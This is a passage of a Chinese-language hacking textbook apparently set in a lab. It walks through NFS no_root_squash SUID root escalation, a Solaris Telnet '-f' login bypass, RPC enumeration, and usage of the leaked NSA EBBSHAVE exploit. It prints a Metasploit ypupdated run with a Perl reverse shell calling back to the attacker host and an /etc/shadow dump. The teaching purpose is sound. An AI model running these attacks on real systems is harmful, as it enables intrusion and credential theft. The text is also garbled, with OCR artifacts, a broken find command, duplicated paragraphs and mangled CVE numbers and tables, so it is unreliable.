一旦你登录到目标机器，请确认你是哪个用户 ID。使用 `id` 命令你会发现你没有 root 读取权限，但你是其他用户——例如 peterk。现在为 `/bin/sh` 创建一个副本。你可以从你 Kali Linux 机器上的目录将 `sh` 复制到挂载的 `/data` 文件夹，但实际上是复制了远程服务器的 `/bin/sh`。你可以给副本命名任何名称，但在接下来的示例中，它有一个显眼的标题 `exploit`。此命令应该在远程机器上执行：

```
cp /bin/sh ./exploit
```

你可以使用 `ls` 来检查该文件的当前所有者和权限：

```
ls -al exploit
```

你应该会看到该文件是由你登录的用户所有的，因为你刚刚复制了它。你可以执行这个 `sh` 副本，但这样做不会改变你的提示符为 `#`（代表 root 用户）。你仍然是同一个用户，所以这没有达到任何效果。你需要做的是将此 `exploit` 文件的所有者改为 root 并启用 SUID 位。这只能作为 root 用户进行，因此你现在需要切换回本地的 Kali Linux 虚拟机（你需要打开两个终端窗口或标签页，以便在你的 Kali Linux 虚拟机和目标机器上执行命令），并查看数据文件夹中的同一个文件。你可以通过 `ls -al /mnt/data` 来执行，这将得到如下输出：

```
total 133
drwxr-xr-x 2 1006 1006 60 Jul 10 19:59 .
drwxr-xr-x 3 root 1006 1006 4096 Jul 10 17:01 ..
-rw-r--r-- 1 1006 1006 220 Nov 5 2016 .bash_logout
-rw-r--r-- 1 1006 1006 3392 Mar 3 2014 .bashrc
-rwsrwxrwx 1 1006 1006 124492 Jul 10 19:59 exploit
-rw-r--r-- 1 1006 1006 675 Nov 5 2016 .profile
```

然后使用 `chown` 命令将所有者更改为 root，如下：

```
chown root:root exploit
```

你可以让所有组都能执行此文件，现在使用 SUID 位。这将导致文件以其所有者——root 用户的权限运行。由于 NFS 文件系统阻止你创建由 root 拥有的文件，从目标机器查看时该文件仍然有效。设置 SUID 位，并使文件对所有者、组和其他用户可读可写（注意，others 指不属于指定组的用户），使用以下命令：

```
chmod 4777 exploit
```

如果你列出目录内容，你应该看到你的 `exploit` 颜色发生了变化，警告它是危险的（这正是你的预期）。输出显示了文件的权限，注意 `x`（执行）已被 `s`（高亮）替换，表示设置了 SUID 位。

```
total 133
drwxr-xr-x 2 1006 1006 60 Jul 10 19:59 .
drwxr-xr-x 3 root 1006 1006 4096 Jul 10 17:01 ..
-rw-r--r-- 1 1006 1006 220 Nov 5 2016 .bash_logout
-rw-r--r-- 1 1006 1006 3392 Mar 3 2014 .bashrc
-rwsrwxrwx 1 1006 1006 124492 Jul 10 19:59 exploit
-rw-r--r-- 1 1006 1006 675 Nov 5 2016 .profile
```


最后，回到远程机器并运行 `./exploit`。这应该立即将你的提示符从 `$` 变为 `#`。如果没有变化，尝试使用 `-p` 选项来保留权限，这是 bash 等 shell 解析器添加的功能。如果你使用 `id` 命令，你会看到尽管你仍以相同的用户登录，但你的 UID 是 0。

# 文件与文件共享

如果你在远程服务器上运行 `cat /etc/exports`，你会看到 NFS 共享的一些选项：`/data` 设置了 `no_root_squash`，而 `/home` 文件夹设置了 `root_squash`。正因为有了 `no_root_squash`，你才能以 root 用户身份保存文件；而 `root_squash` 则防止这种情况。如果你能够挂载 `/home` 文件夹，你将无法设置任何添加的文件都属于 "nobody"。通过设置 "nosuid"，也可以停止启用 SUID 的上传。

## 寻找有用文件

在任何你成功以非 root 用户身份访问的系统上，都有非常有用的命令可以搜索帮助访问 root 账户的文件。在之前的章节中，你看到了如何搜索用户态（也称为用户空间）程序的漏洞来获取 root。这种技术允许你找到系统中设置了 SUID 位的文件。这意味着这些文件将始终以所有者的权限运行。一旦你在系统上有了 shell，你应该尝试以下：

```
find -perm 4000 -type f 2=/dev/null
```

此命令从系统的根级别（/）开始搜索文件。`-perm`（permission 的缩写）选项设置为 4000，这意味着只会返回设置了 SUID 位的文件。感叹号（!）是一个逻辑运算符，表示“非”。`-type` 选项设置为 `f`，表示文件。在检查权限时你对这种类型的文件感兴趣，因为它不是目标二进制文件的准确反映；链接无法通过这种方式提升权限，因此 `!type f` 用于指定不是文件类型。最后，`2` 用于将所有标准错误（stderr）输出重定向到文件 `/dev/null`，即空空设备。

如果你能够找到以 root 用户身份运行的文件，并且能够向它们提供参数，那么你可能以 root 用户身份进行读取。你还应该使用 Searchmap 等工具对此类文件进行已知漏洞调查。你还可以寻找以特定组运行的文件；即它们具有 SGID 位，通过将权限更改为 2000 设置。

通过这些搜索，你可能会找到一个你可以编辑且对目标系统有影响的文件。也许你可以用它以不同用户运行命令（这不非要是 root），或者该文件被一个以更高权限运行的程序使用。在下一章中，我们将查看一个可以使用系统中已存在的可写文件进行利用的 UNIX 服务。

## 总结

如果你以前对文件模式位和权限不熟悉，现在你应该能够更有效地解释它们，并识别何时应用了过度权限。确保你对文件权限可以做什么了信心。练习更改文件的权限，看看以不同用户或 "nobody" 登录时你可以做什么和不能做什么。在你的 Ubuntu 虚拟机或其他虚拟机上进行实验，设置账户和文件共享并修改你的 Samba 和 NFS 配置文件，看看可以做什么。确保阅读命令和守护进程的 man 页面以了解它们工作的更多细节。

`chmod` 命令配合文件模式的进制表示（例如 744 和 600）时，一旦频繁使用就会变得非常直观。你只需要记住读取优先（4），然后写入（2），最后执行（1），并且有三列：所有者、组和其他。从这里你可以通过相应地相加 4、2 和 1 来计算哪些数字将给出一组权限。你只希望所有者能够读取此文件，其他人不能。嗯，由于你没有添加写入或执行权限，所以没有增加，所以在所有者列中放入 4。因此你得到 400。记住你可以如下所示使用 `chown` 更改所有者，这将将文件的所有者和组更改为 admin：

```
chown admin:admin file.txt
```

## 第 9 章 文件与文件共享 313

涉及 NFS 时，审查导出文件 (`/etc/exports`) 对于理解文件如何提供给网络用户至关重要。你可能还需要解释为什么缺乏 `no_root_squash`（以及 `nuid`）可能会导致大问题！同样，来自 Rsync 的文件权限暴露允许你远程查看文件系统的配置情况。只有在理解了基本文件权限以及 RPC 之后，你再继续本章，因为我们将在下一章中继续扩展这些概念。

# 第 10 章：UNIX

到目前为止，我们一直关注 Linux 宿主机，并简要查看了微软的技术。现在，我们将查看一个早于 Linux 的操作系统——即 UNIX。你可能会发现很难区分两者之间的区别，而且在很多情况下，它们之间真的没有区别，因为最初诞生于 UNIX 系统的上的工具和程序已经进入了 GNU/Linux 世界。在本章中，我们将使用真实的 UNIX 环境 Solaris 10，作为我们所探索的各种黑客活动的背景。我们还将向你展示一些方法，让你可以在你的 Linux 发行版上复现有缺陷的 UNIX 服务，例如你一直在使用的 Ubuntu 虚拟机（VM）。如第 3 章“构建你的黑客箱”所述，有免费的开源 UNIX 发行版可供你测试，我们包含了一个供本章使用的预构建实验室。在商业环境中，你可能会发现许多付费的 UNIX 发行版，它们由惠普、IBM 和 Oracle 等公司提供。这些公司提供自己品牌的 UNIX，通常附带服务水平协议（SLA）和技术支持。这使得这些 UNIX 版本对于经常需要供应商支持的企业来说，比 Linux 这样的开源操作系统更受欢迎。

## UNIX 系统管理

如果你打算黑进 UNIX，你就需要像 UNIX 系统管理员一样思考。我们将像管理员一样查看管理工具和实用程序，尽管我们会访问某些我们没有凭据的区域。如果你不熟悉 Linux、UNIX 以及各种形式的 UNIX 之间（细微的）差异，在 bhami.com/rosetta.html 有一个非常棒的网站，那是系统管理员的 UNIX 罗塞塔石碑（Rosetta Stone）。假设你想知道如何在特定的 UNIX 系统（例如 IBM 的 AIX）中执行某项特定任务。假设你想在该系统上运行 `uname` 命令，但它不起作用。你可以尝试使用等效命令。罗塞塔石列出了 `prconf`、`lsconf` 以及其他可能你在 IBM AIX 系统上尝试的命令。因此，只要你熟悉 UNIX 系统或 Linux，你就可以使用这个资源来帮助你导航其他版本。

> **提示** Hacker 将罗塞塔石碑转换成了 SQLite 数据库，你可以在这里找到：`github.com/hackerhouse-opensource/tools/blob/master/rosetta.db`。如果你发现自己在没有出站连接的网络中，并且需要在表中查找命令，这非常有用——你只需要在本地数据库中搜索所需的命令即可。

## Solaris

在本章中，我们将向你展示来自名为 Solaris 的 UNIX 发行版的示例，它由 Sun Microsystems 公司开发，该公司在 2010 年被 Oracle 收购。这个特定的 UNIX 变体很有趣，因为它在某个时期被广泛使用，但包含许多有趣的缺陷和漏洞。如果你在 20 世纪 90 年代后期或 21 世纪初运行这些系统之一并将其连接到互联网，你的机器极有可能已经被各种个人和组织攻破（pwned）多次。

这段时期是黑客活动活跃的时期，特别是针对 UNIX 系统。你可能认为最初负责该操作系统（OS）的 Sun Microsystems 公司并没有真正的声誉或严肃的产出。但 Sun Microsystems 对计算世界做出了巨大贡献。除了开发 Solaris 外，Sun 还创建了 Java 编程语言；网络文件系统（NFS）；可扩展处理器架构（SPARC，这是一种早期且商业上成功的 RISC 架构）以及许多其他技术。Sun Microsystems 还负责开发了外部数据表示（XDR）格式，这是许多数据传输协议使用的底层数据格式，包括 ONC 远程调用（RPC）。

2005 年，Solaris 被引入，这意味着任何人都可以阅读。（注：OCR 文本在关于 Solaris 历史和特征的源文本中似乎存在一些伪影/重复；我保留了所提供的语义流）。

当你完成这个虚拟机后，如果你没有使用命令 `/usr/sbin/shutdown -y` 正确关闭，可能会损坏磁盘并被迫重新导入该虚拟机才能再次使用。此命令只能从 root 用户运行，而你需要通过黑进并遵循本章中的示例来成为 root 用户。对于对于对意外终止或崩溃响应良好的遗留系统来说，这是一个常见问题。在探测客户端系统时，注意此类潜在问题非常重要，以确保你不会对其网络造成干扰。

## UNIX 黑客工具箱

我们目前为止展示的用于黑进 Linux 宿机的几乎一切内容也将有用。UNIX 宿主机可能提供网页、电子邮件或 DNS，因此你之前使用的相同工具也适用于这些情况，你应该尝试尝试。我们将在本章中介绍一些与 X Window 系统交互的工具，允许你接管摄像头并从远程主机截屏。我们还将查看在 Solaris 时代合法 UNIX 管理员使用的某些工具，如 R-services 和 Telnet。此类工具和服务不应再出现在野外，但它们偶尔会出现。

# 第 10 章：UNIX 319

以下是我们将讨论的一些工具列表：

- 经典的“UNIX”管理工具，如 Telnet、Finger 和 Cron
- RPC 工具，如 RPCinfo 以及 NSA 的 EBBSHAVE 漏洞利用
- R-services 客户端程序
- SNMP 工具，如 SixtyOne、SNMPcheck 以及 NSA 的 Ewok
- X Window 工具；例如 Xwd、Xdool、Xwininfo 和 Xspy

> **注意** 许多被归于 NSA（美国国家安全局）的开源黑客工具已经泄露，现在处于公共领域。我们无法确定这些工具是否真的来自 NSA，但你可以通过 `code.nsa.gov` 确认这些资源的来源。你将可以在那里找到许多由 NSA 开发的开源软件程序。

# Solaris 端口扫描

这里是对运行 Solaris 10 的虚拟机进行的基础扫描（`nmap <TargetIP>`）。在本章中，我们将逐步研究其中的许多端口。

针对 192.168.56.107 的 Nmap 扫描报告

主机已启动 (0.0005s 延迟)。

未显示：977 个关闭端口

| 端口 | 状态 | 服务 |
| :--- | :--- | :--- |
| 21/tcp | open | ftp |
| 22/tcp | open | ssh |
| 23/tcp | open | telnet |
| 79/tcp | open | finger |
| 111/tcp | open | rpcbind |
| 513/tcp | open | login |
| 514/tcp | open | shell |
| 898/tcp | open | sun-manageconsole |
| 4045/tcp | open | lockd |
| 5987/tcp | open | wbem-rmi |
| 5988/tcp | open | wbem-http |
| 6000/tcp | open | X11 |
| 7100/tcp | open | font-service |
| 32771/tcp | open | timesource-rpc5 |
| 32772/tcp | open | timesource-rpc7 |
| 32773/tcp | open | timesource-rpc9 |
| 32774/tcp | open | timesource-rpc11 |
| 32775/tcp | open | timesource-rpc13 |
| 32776/tcp | open | timesource-rpc15 |
| 32777/tcp | open | timesource-rpc17 |
| 32778/tcp | open | timesource-rpc19 |
| 32779/tcp | open | sometimes-rpc21 |
| 32783/tcp | open | unknown |

MAC 地址：08:00:27:4D:A5:6B (Oracle VirtualBox 虚拟网卡)

nmap 完成：扫描了 1 个 IP 地址 (1 个主机)，耗时 39.46 秒

你可能无法一眼看出这是一个 UNIX 系统。尽管如此，随着时间的推移和经验积累，你将开始能够根据这种默认扫描的结果（仅查看开放的端口和运行的服务）来区分不同的系统。在对 UNIX 服务器进行激进的端口扫描时要小心，因为它们并不总是像现代系统那样具有韧性。某些 UNIX 系统可能带有遗留接口，如果你不小心，可能会导致服务崩溃或变得无响应。你可能希望采用更明确的方法，如下：

```
nmap -sS -vv -Pn <TargetIP> -O unix.txt -OX unix.xml -T2
```

此命令执行的是 SYN 扫描（而不是你目前看到的 TCP 连接扫描）。这台特定的服务器可能对激进扫描没有任何级选项（如脚本）反应良好，而且我们使用 `-T` 选项降低了数据包发送的速度。你可以通过“手动”方法以较慢的速度进行扫描，从而探测 Nmap 使用 `-A` 选项会执行的那些探测。`-A` 选项允许操作系统检测、版本检测、脚本检测和跟踪路由，但它是同时执行所有这些操作；你可以逐一执行每一个。`-O` 选项将启用操作系统检测，可以配合 `--script=<ScriptName>` 运行，你可以使用 `-sV` 探测版本信息（通过 `--version-intensity` 后跟一个 0 到 9 的数字使用不同的强度级别），并可以使用 `--traceroute` 执行跟踪路由。一次针对一个感兴趣的端口运行 Nmap 是可以的。然后你还可以使用 Netcat 连接到单个端口并执行特定协议的探测（如你对 SMTP 和 HTTP 所做的那样），以及获取 banner（标识）。你可以通过降低提供给 `-T` 的计时选项来进一步降低目标主机或单个服务崩溃的风险。

## Telnet

Sun Microsystems 对 Telnet 协议的实现（指代协议时通常大写，但不指代具体实现）可以被视为 Solaris 的阿喀琉斯之踵。RFC 854 中的 Telnet 设计允许远程用户登录机器并访问终端。这本身没有问题。问题在于 Telnet 是一个明文协议。这意味着远程用户的登录详情（用户名和密码）以及任何命令和这些命令的结果将以明文通过网络传输。该协议的设计初衷并非用于“受信任的网络”，但真的有这样的网络吗？Sun Microsystems 的 Telnet 软件为一个原本就不安全的协议增加了严重的漏洞。其中一个漏洞允许匿名用户在没有任何凭据的情况下登录。稍后介绍。

如果你现在在客户端系统上看到 Telnet 服务，应该立即将其标记为漏洞。Sun Microsystems 的 Telnet 软件为一个原本就不安全的协议增加了严重的漏洞。其中一个漏洞允许匿名用户在没有任何凭据的情况下登录。稍后介绍。

# 第 10 章 » UNIX 323

这种方法对你的 Ubuntu Server VM 的 Telnet 服务无效，但对我们提供的 VM 有效。该漏洞特定于 10 的早期版本以及 Solaris 的 II 版本，我正尝试使用该命令以 `bin` 用户身份登录。以下是发生的情况：你可以完全绕过身份验证并访问服务器。

```
root@kali:~# telnet -f-bin 192.168.56.107
Trying 192.168.56.107...
Connected to 192.168.56.107.
Escape character is ']'.
Last login: Mon Jul 8 12:54:25 from 192.168.56.102
Sun Microsystems Inc. SunOS 5.10 Generic January 2005
$ id
uid=2 (bin) gid=2 (bin)
```

从 `id` 命令的结果可以看出，该漏洞允许成功以 `bin` 用户身份登录。你可能会疑惑，为什么我们不输入用户名 `root` 并以 `root` 用户身份登录。毕竟，该漏洞被命名为 "foot"。实际上，这是一个误解。该攻击默认对 `root` 用户不起作用，因为 `root` 用户（默认情况下）不允许远程登录（除非在本地使用 `su` 命令或通过本地控制台）。另一方面，`bin` 用户在当时几乎可以在任何 Solaris 机器上使用。有时，系统管理员可能会更改默认设置并启用 `root` 登录，这就是为什么一些人报告该攻击对 `root` 用户有效，从而出现了 "foot" 这个名字。该漏洞是一种命令注入，因此也是参数注入，它通过环境变量向登录程序提供参数，允许经过特殊构造的命令使用 `-f` 强制登录参数绕过身份验证。

CVE-2015-0014 是一个影响微软 Telnet 实现的漏洞，存在于较新版本的 Windows 中，包括 Windows Server 和 Windows 8。微软的 Telnet Server 受到此影响。根据 VulDB (vuldb.com) 的数据，尚未可用该漏洞的公开利用（尽管该漏洞的页面已经过时）。

Hacker House 发布了一份关于内存损坏的公告，该漏洞影响了源自 BSD（加州大学伯克利分校的 UNIX 概念代码）的几个 Telnet 客户端，并附带了测试漏洞的演示代码。该公告影响多个 Telnet 客户端，包括在 Juniper 和 Apple Sierra 上发现的客户端，因为它们共享基于 UNIX/BSD 的起源。公告位于 `github.com/hackerhouse-opensource/exploits/blob/master/inetutils-telnet.txt`。

作者的另一份公告显示了如何利用 Mikrotik RouterOS 的 Telnet 特性进行权限提升，可以在 `github.com/hackerhouse-opensource/exploits/blob/master/mikrotik-jailbreak.txt` 找到。


此利用程序允许任何对 Mikrotik 设备具有有限访问权限的人通过文件创建 Telnet 调试功能远程启用 root shell，该功能在向厂商报告后已在 6.40.9 版本之后被移除。Telnet 和 Telnet 实现具有大量的历史和现代漏洞，它们在宿主机上的存在表明缺乏安全加固，这应该鼓励你将精力放在审查此类系统上。

## 安全外壳

应该使用 Secure Shell (SSH) 而不是 Telnet，因为最新版本的 SSH 在安全性方面比 Telnet 优得多。不知为何，我们在书中读到这里时还没有仔细研究这个极其有用且受欢迎的协议。SSH（详情请参见 RFC 4253）是一种常用服务，你会在它运行在面向网的外部主机（不一定推荐）以及 UNIX 和类 UNIX 系统的内部网络上。TCP 端口 22 是 SSH 的默认端口。系统管理员喜欢将其更改为更高的端口号——这并不能阻止黑客，但可以防止各种恶意软件。Telnet 和 Telnet 实现具有许多历史和现代漏洞，它们在宿主机上的存在表明缺乏安全加固，这应该鼓励你将精力放在审查此类系统上。

# 第 10 章 UNIX 327

| 程序号 | 版本 | 协议 | 端口 | 服务名 |
|---|---|---|---|---|
| 100133 | 1 | tcp | 32771 | nlockmgr |
| 100021 | 1 | udp | 4045 | nlockmgr |
| 100021 | 2 | udp | 4045 | nlockmgr |
| 100021 | 3 | udp | 4045 | nlockmgr |
| 100021 | 4 | udp | 4045 | nlockmgr |
| 100021 | 1 | tcp | 4045 | nlockmgr |
| 100021 | 2 | tcp | 4045 | nlockmgr |
| 100021 | 3 | tcp | 4045 | nlockmgr |
| 100021 | 4 | tcp | 4045 | nlockmgr |
| 100229 | 1 | tcp | 32772 | |
| 100229 | 2 | tcp | 32772 | |
| 100422 | 1 | tcp | 32773 | |
| 100242 | 1 | tcp | 32774 | |
| 106310 | 1 | tcp | 32775 | |
| 100001 | 2 | udp | 32773 | rstatd |
| 100003 | 3 | udp | 32773 | rstatd |
| 100001 | 4 | udp | 32776 | rusersd |
| 100002 | 2 | tcp | 32776 | rusersd |
| 100002 | 3 | tcp | 32776 | rusersd |
| 100002 | 2 | udp | 32774 | rusersd |
| 100003 | 3 | tcp | 32774 | rusersd |
| 100011 | 1 | udp | 32775 | rquotad |
| 100083 | 1 | tcp | 32777 | |
| 100068 | 2 | udp | 32776 | |
| 100068 | 3 | udp | 32776 | |
| 100068 | 4 | udp | 32776 | |
| 100068 | 5 | udp | 32776 | |
| 300598 | 1 | udp | 32779 | |
| 300598 | 1 | tcp | 32787 | |
| 805306368 | 1 | udp | 32779 | |
| 805306368 | 1 | tcp | 32787 | |
| 100249 | 1 | udp | 32780 | |
| 100249 | 1 | tcp | 32788 | |
| 100028 | 1 | tcp | 32791 | yupdated |
| 100028 | 1 | udp | 32784 | yupdated |

你需要查找尚未命名的程序号，查出该程序具体是什么，并检查此 RPC 程序是否存在漏洞。检查程序号的一种方法是查看 RFC 5531 的附录 C (`tools.ietf.org/html/rfc5531#page-27`)。

现在，让我们看看上一次输出中已经命名的某些程序。首先，让我们看看 `rusers`，你可以使用命令 `rusers <TargetIP>` 来查询它，假设你已经安装了客户端程序（`apt install rusers`）。这将会列出当前登录到系统的用户，如下所示：

```
192.168.56.107      helpdesk
```

之前的 Nmap 扫描结果显示了若干个标记为 `sometimes-rpc` 后跟数字的服务。那再次是扫描结果的一部分：

```
32771/tcp open sometimes-rpc5
32772/tcp open sometimes-rpc7
32773/tcp open sometimes-rpc9
32774/tcp open sometimes-rpc11
32775/tcp open sometimes-rpc13
32776/tcp open sometimes-rpc15
32777/tcp open sometimes-rpc17
32778/tcp open sometimes-rpc19
32779/tcp open sometimes-rpc21
32783/tcp open unknown
```

Nmap 不确定这些是否为 RPC。你会在 RPCinfo 提供的输出中列出相同的端口号，这也是为了确认是否存在 RPC 服务。在与 RPC 通信时，你需要确保正在使用正确的程序版本以及正确的 UDP TCP 端口。RPC 可以同时在 TCP 和 UDP 上运行，并且存在不同的程序版本，以兼容不同范围的系统。

如果你使用 Searchsploit 对 RPC 进行搜索，你会看到许多不仅影响 Solaris 同时也影响 Unix 操作系统的漏洞利用。以下是 Searchsploit 的输出示例：

- Caldera 8.0/UnixWare 7.1 / HP-UX 11.0 / Solaris 7.0 / SunOS 4.1.4 - rpc.cmsd Buffer Overflow (1)
- Caldera 8.0/UnixWare 7.1 / HP-UX 11.0 / Solaris 7.0 / SunOS 4.1.4 - rpc.cmsd Buffer Overflow (2)
- HP-UX 10/11 - IMAX 3/4 - OpenSolar build 8/9 / SunOS 4.1.4 - 'rpc.ypdget' Command Execution (1)
- HP-UX 10/11 - IMAX 3/4 - OpenSolar build 8/9 / SunOS 4.1.4 - 'rpc.ypdup' Command Execution (2)
- Open 5.0/5/6 - HP-UX 10/11 / Solaris 2.6/7.0 - rpc.ypd Buffer Overflow
- Solaris 10 - 'rpc.ypated' Remote Code Execution
- Solaris 10 - 'rpc.ypated' Remote Code Execution (Metploit)
- Solaris 10 2.5/1 - rpc.statd Call Relaying of Service
- Solaris 7.0 - rpc.ttdb Denial of Service
- Solaris 9 - RPC Denial Service

如果你搜索 RPC，你会发现许多 UNIX 系统的漏洞。现在来探索一些 Solaris 漏洞。

### CVE-2010-445

Searchploit 列表顶部有两个漏洞：rpc.cmsd Buffer Overflow (1) 和 rpc.cmsd Buffer Overflow (2)。这些是针对 CVE-2010-445 用 C 语言编写的两个不同漏洞。受影响的程序是程序号为 100 的 Calendar Service。漏洞是缓冲区溢出，允许远程攻击者向远程计算机注入代码以获取 root 权限。受此影响的平台包括 Solaris、AIX 和 HP-UX。针对 AIX 版本有一个名为 Tailored Access (TAO) 的模块，可以用于利用 calendar 服务。

### CVE-1999-029

针对 CVE-1999-029 的 rpc.ypupdated 远程代码执行漏洞也出现在 Searchploit 列表中。该漏洞还有一个 Met 模块。漏洞存在于 Yellow Pages Update (ypupdated)，这是一个旧的目录服务。今天（在外部）可能看不到它，但在当时它可以被用来获取密码和其他有用信息。该漏洞允许我们在远程主机上以 root 身份运行命令——以下是使用 `cmd/reverse_perl` 模块产生的输出：

```
[*] Started TCP handler on 192.168.56.102:4444
[*] 192.168.56.107:111 Sending PortMap request for ypupdated
[*] 192.168.56.107:111 Sending MAP UPDATE request with command 'perl-MIO -e $sp='fork;exit;if ($sp);foreach $key (keys %ENV) {if($ENV{\$key}) {\ENV{\$key}=$ENV{\$key}}}; $c=new IO::Socket::INET(PeerAddr=>192.168.56.102,Port=>4444); $fd=open($c,">|\|&); execclose($fd);while($__=\*/){system($1));'
[*] 192.168.56.107:111 Waiting for response...
[*] 192.168.56.107:111 No Errors, appears to have succeeded
```

```
[* Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.107:32809) at 2019-06-27 12:23:07 +0100

id
uid=0(root) gid=0(root)
cat /etc/shadow
root:s07b6ip172c:1721:::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uuc:NP:6445::::::
uccp:NP:6445::::::
smsmp:NP:6445::::::
listen:*LK*::::::
gdm:*LK*::::::
webservd:*LK*::::::
nbody:*LK*::::::
noaccass:*LK*::::::
dnobody:*LK*::::::
helpdesk:wpMDBFairip:1721::::::
billy:pcr6dcAXEYEP:1721::::::
petek:b3mSmPr48vTOKU:1721::::::
cliff:Vr2iLvp/oiM6:1721::::::
```

如果你查看该模块的输出，你会看到它已经向可以通信的服务更新程序发送了 MapRequest。它会发送一个带有附加 Perl 代码的 MAP UPDATE 请求（在之前的输出中高亮显示），该代码在远程机器上运行并连接回我们的 Kali Linux 机器，从而产生 shell。命令也被执行了，/etc/shadow 文件的内容已输出到屏幕。这个例子展示了就像其他服务一样，RPC 也可以包含简单的远程执行流。

# 第 10 章 UNIX

因为该工具中内置了反取证技术——这是 NSA 美国国家安全局开发的工具的共同特征。即使攻击失败，该利用程序仍然可以隐藏踪迹，并用乱码数据覆盖远程主机上的证据，以模糊攻击意图，从而在过程中防止漏洞被进一步利用！

# 黑客的圣杯 EBBSAVE

你可以从 `www.hackerhousebook.com/files/ebb.tgz` 下载 NSA 的 EBBSAVE 工具。一旦下载此压缩包，你需要使用 `tar -xvzf ebb.tgz` 对其进行解压。在内部，你将找到三个二进制文件：`ebnew_linux`、`ebbshave.v4` 和 `ebbshave.v5`。在使用这些利用程序时，你需要确保在 64 位 Linux 上安装了 32 位库，可以使用 `apt-get install lib32z1` 安装这些库。这些不同的系统都与同一个漏洞有关。让我们 `ebnew_linux`，运行命令 `./ebnew_linux` 将向你展示一些用法信息，如下所示：

```
./ebnew_linux version 2.0
Usage: ./ebnew_linux [-V] <target_ip> -p port
-r <program> (RPC program number)
-v <version> (version number)
-a <jumpaddress> (shellcode address)
-X|-F (use -X for "indirect"/xdr-replysm progs, -F for others.

如果你不知道这些这意味着，请停止并阅读文档。
-M <mtu> (要发送的数据包数据部分的大小 - 默认为 1260。影响 LZ 大小)
-s <source_port>
[-c prog] (程序编号。默认为 0)
[-P prog] (可选的可执行程序，重用利用程序的套接字)
```

要成功使用该利用程序，你将重用以下选项：

- 目标 IP 地址。
- RPC 程序的端口号。
- 一个 RPC 程序编号（这运行在目标机上）。
- 该 RPC 程序的版本号。
- 一个特定的内存地址（你不一定需要手动处理它！）

文档告诉，他们可以根据使用的 XDR 类型使用 -X 或 -F，并附带了一个警告：

> “如果你不知道这些这意味着，请停止并阅读文档。”

运行利用程序时显示的其他选项并非成功运行该工具所必需。

要使用此工具，NSA 操作员必须了解目标架构的细节，以及 RPC 服务提供的配置和所选选项的复杂之处。只要你拥有所有正确的内存地址，该利用程序将以近乎手术的方式提供一个 shell。在使用此工具时确实需要一些尝试，但毫无疑问，大量的远程 shell 通过这种方式被攻破。然而，有一种更简单的方法通过暴力破解使用 EBSHAVE，以获取所需的内存地址值。

# EBSHAVE 版本 4

虽然 `ebnew-linux` 要求操作员提供能够成功攻击的精确内存位置，但 `ebbave.v4` 不需要。`ebbave.v4` 使用暴力破解方法来实现系统，实际上是尝试不同的内存地址，直到找到正确的那个。这在每次尝试失败后都是可能的，服务将重启并允许使用新的内存地址重新尝试攻击。运行命令 `./ebbave.v4` 将显示用法选项，尽管并非所有内容都得到了解释。此版本可以在不提供许多选项的情况下运行，但也允许用户在需要时指定特定参数。

你将在用法文本中看到一个 Whackable Targets... 列表。这些可以成功被暴力破解的系统类型。系统的架构以及目标主机上 Solaris（或 SunOS）的版本决定了攻击是否成功。`ebbave.v4` 可以用于某些 SPARC 和 x86 系统，如下所示在打印的表中所示：

获取有关目标架构和 OS 版本信息的一种方法（假设你已作为非特权用户获取了 shell）是使用 `uname` 命令。`-a` 选项将打印所有信息。在你的 Solaris 10 虚拟机上运行此命令会产生以下信息：

```
SunOS unixserver0 5.10 Generic 8855-14 i386 i38pc
```

你可以看到这是一台 Intel 机器——i386 告诉了你。Nmap 扫描也会告诉你 RPC 运行在哪里。当你遇到版本 11 之前的 EBSHAVE 时，你应该可以使用它的工作原理。虽然不需要精确的内存位置，但你仍然需要提供架构和内存范围。工具将尝试不同的地址直到获取到一个。你还可以提供其他选项：例如 -c 选项，使用随机数据作为 shellcode 覆盖 /core 文件。换句话说，工具将自动尝试覆盖自己的踪迹，它通过崩溃服务来寻找内存地址。在尝试失败的情况下，shell 将被随机数据覆盖。这种功能在纯工具中是不见的，但它是内置在许多 NSA 工具中的。其理念是保持不被发现并保持利用程序的秘密。大多数利用程序和工具的设计并未达到这一标准，也罕见这种类型。我们在示例中针对的系统是 Solaris 10，但根据工具用法中的可用列表，可能并不显而易见。

| T | Software | Architecture | Start Address | End Address |
|---|---|---|---|---|
| 0 | 2.9 | SPARC | 0xffffa0 | 0xffffd0 |
| 1 | 2.9 | SPARCm | 0xfffffe00 | 0xfffffe00 |
| 2 | 2.9 | x86 | 0x0804700 | 0x080470 |
| 3 | 2.8 | SPARC | 0xfffffea0 | 0xffffd0 |
| 4 | 2.8 | SPARCm | 0xfffffe00 | 0xfffffe00 |
| 5 | 2.8 | x86 | 0x0804700 | 0x080470 |
| 6 | 2.7 | SPARC | 0x0002840 | 0x0002d1 |
| 7 | 2.7 | x86 | 0x0805170 | 0x080550 |
| 8 | 2.7 | SPARC | 0x0002910 | 0x0002f0 |
| 9 | 2.7 | x86 | 0x0805250 | 0x080560 |
| 10 | 2.7 | SPARC | 0x0006200 | 0x0007100 |


| 11 | 2.7 | SPARC | 0xfffea0 | 0xffffd0 |
| 12 | 2.7 | x86 | 0x0804c00 | 0x0804700 |
| 13 | 2.7 | x86 | 0x0804700 | 0x0804700 |
| 14 | 2.6 | SPARC* | 0xfffffe00 | 0xfffffe00 |
| 15 | 2.6 | sund4 | 0xffffa0 | 0xffffd0 |
| 16 | 2.6 | x86 | 0x0804700 | 0x080470 |

对于我们的攻击，我们将使用 2。这指定了软件 2.9 版本和 x86 架构类型。

这是 `ebbave.v4` 使用 `-n 32775 -t 192.168.56.107 2`。

# 第10 章 » UNIX 335

## EBBHAVE 版本 5

根据其用法（通过不带任何参数运行程序获取），`EBBHAVE` 版本 5 (`ebbshave.v5`) 是“针对 Spar Solaris RPC 服务的 ebnew_linux 漏洞的封装”。如果你的目标是 Spar Solaris 系统，可以使用此工具。然而，它无法在 x86 Solaris 实例上运行，例如在你虚拟机上运行的。

要执行此操作，你需要指定 `-o`（一个选项或目标服务）、`-t`（你尝试利用的程序版本号）、`-v`（目标 IP 地址），最后是 `-p`（端口号）。在后续命令开头，当前目录 (`/`) 被包含在 `PATH` 环境变量中，以便漏洞利用程序找到并使用 `ebnew_linux` 文件：

```
PATH=./ebbshave.v5 -o 1 -v -t <TargetIP> -p 32775
```

如果你运行此命令，你将看到发送的 RPC 请求。如果目标是 SPARC 机器，漏洞将会被触发。

## 调试

